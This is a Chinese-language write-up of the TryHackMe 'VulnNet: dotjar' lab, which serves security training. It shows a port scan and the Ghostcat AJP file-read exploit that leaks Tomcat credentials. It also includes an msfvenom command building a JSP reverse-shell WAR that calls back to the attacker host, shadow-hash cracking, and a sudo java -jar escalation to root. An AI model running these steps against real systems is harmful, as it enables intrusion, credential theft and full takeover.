 ```yaml
---
sidebar_position: 146
tags: [Easy, Linux, 信息泄露, SUDO]
title: "VulnNet: dotjar"
description: "VulnNet: dotjar"
sidebar_label: "VulnNet: dotjar"
slug: /tryhackme/146
---
```


# VulnNet: dotjar

## 端口扫描

```bash
root@ip-10-10-20-92:~# nmap -sTCV -p- --min-rate 1000 10.10.99.153
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-05 09:57 BST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for ip-10-10-99-153.eu-west-1.compute.internal (10.10.99.153)
Host is up (0.0054s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:FF:C1:D7:81:19 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.13 seconds
```

## 8080

根据扫描结果显示是 Apache Tomcat 9.0.30 并且开启了 8009 ajp 协议, 我记得这个搭配是存在任意文件读取漏洞的所以我直接找了 EXP 开始利用 [CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

```bash
root@ip-10-10-20-92:~/vulnnetdotjar/CNVD-2020-10487-Tomcat-Ajp-lfi# python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 10.10.99.153 -p 8009 -f WEB-INF/web.xml
....
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

</web-app>
```

从上述输出中我们可以确定以下内容:

- 一个后台登陆账号 : webdev:Hgj3LA$02D$Fa@21
- 禁用了GUI 访问, 如果你尝试使用浏览器访问 Tomcat 的管理页面你会发现 403 而且无法绕过

我本来想的是服务端基于 User-Agent 的检测, 但是尝试一圈后发现没有办法绕过, 所以转换思路直接使用命令行操作上传, 万幸 GPT 告诉了我上传的 URL , 所以创建我们的 war 文件并进行上传

```bash
root@ip-10-10-20-92:~/vulnnetdotjar# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.20.92 LPORT=4444 -f war > shell.war
```

![image-20240709181709039](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181710.png)

## 后渗透

### web

开启监听并进行等待我们就可以获取到一个 Shell

![image-20240709181721006](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181722.png)

### web —> jdk-admin

在 var 目录下搜索时我发现一个特殊的备份文件

```bash
(remote) web@vulnnet-dotjar:/var$ ls -al backups/
total 2652
......
-rw-r--r--  1 root root       485 Jan 16  2021 shadow-backup-alt.gz
.....
```

我猜测这个文件中存在用户的密码, 所以将其下载到本地, 如果你遇到格式错误问题, 不妨先将其复制到 tmp 目录下再下载, 解压之后其中确实是 shadow 的文件, 并且其中存在 root 、jdk-admin、 web 的hash 所以解密

![image-20240709181729087](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181730.png)

使用得到的密码切换用户即可

### jdk-admin —> root

我发现 jdk-admin 用户存在 SUDO 特权可以执行所有的 jar 程序

```bash
jdk-admin@vulnnet-dotjar:/tmp$ sudo -l
Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
```

在这里我自己创建了一个自己的 jar 包, , 其作用是将 /bin/bash 赋予 SUID 权限, 将其进行上传并执行后确实完成了任务

![image-20240709181737613](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-181739.png)